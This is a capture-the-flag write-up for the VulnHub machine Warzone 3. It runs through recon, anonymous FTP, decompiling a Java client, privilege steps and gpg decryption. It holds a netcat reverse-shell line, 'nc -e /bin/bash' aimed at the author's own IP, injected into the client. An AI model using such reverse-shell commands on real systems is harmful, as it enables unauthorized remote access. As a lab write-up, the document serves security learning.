


# Warzone: 3

[Machine](https://www.vulnhub.com/entry/warzone-3-exogen,606/ "https://www.vulnhub.com/entry/warzone-3-exogen,606/")

## Reconnaissance

### nmap

* 21 - ftp
* 22 - ssh
* 4444 - kerberos...?

### ftp

Anonymous access is allowed.

* note.txt
* alienclient.jar

#### Credentials

from note.txt we got:

username:	alienum@exogenesis
password:	sha256(username)

To get a password execute next in python3 interpreter:
```
import hashlib

hashlib.sha256(b'alienum@exogenesis').hexdigest()
```

Also, we have a client app:



### kerberos

I don't know what to gather from it. Moreover, I don't want to use Metasploit.

## Threat modeling

Here the attack vector is the `alienclient.jar` file which we can decompile and use with the right credential.

## Vulnerability analysis

Again, here is information leakage through the misconfiguration of ftp. It gives us the ability to modify the client-side application. That leads to remote code execution.

## Exploitation

In the source code you can see next part:



After:
```
list.setCmd("nc -e /bin/bash 192.168.88.226 4444");
```

Compile it with `javac -d . source.java`. And we got a shell as "exomorph" user.

## Post exploitation

### Explore

A user "exomorph" has in his home directory 'encryptor' and encrypted file. But I can't decompile the program from the shell. So I copied the binary to my machine with `cat wrz3encryptor.jar | base64`.

### The decryption of the aliens

Decompile the jar and create a new package, change the mode to `Cipher.DECRYPT_MODE`. Got `aliens.txt`. 

### ssh

While I was in exomorph shell, I did `ls` in home dir and saw a user `anunnaki`. There are 3 passwords for this user. Got the anunnaki shell.

### gpg

"GnuPrivacy Guard (GPG) allows you to securely encrypt files so that only the intended recipient can decrypt them."

Decrypt the file with gpg:
```
gpg --decrypt secpasskeeper.jar.gpg > /tmp/secpasskeeper.jar
```

### secpasskeeper

Okay, again you need just decompile jar and delete a few lines. My source file is [here](post/secpasskeeper/src/Main.java).


## Sources

### gpg

[gpg](https://www.howtogeek.com/427982/how-to-encrypt-and-decrypt-files-with-gpg-on-linux/ "https://www.howtogeek.com/427982/how-to-encrypt-and-decrypt-files-with-gpg-on-linux/")


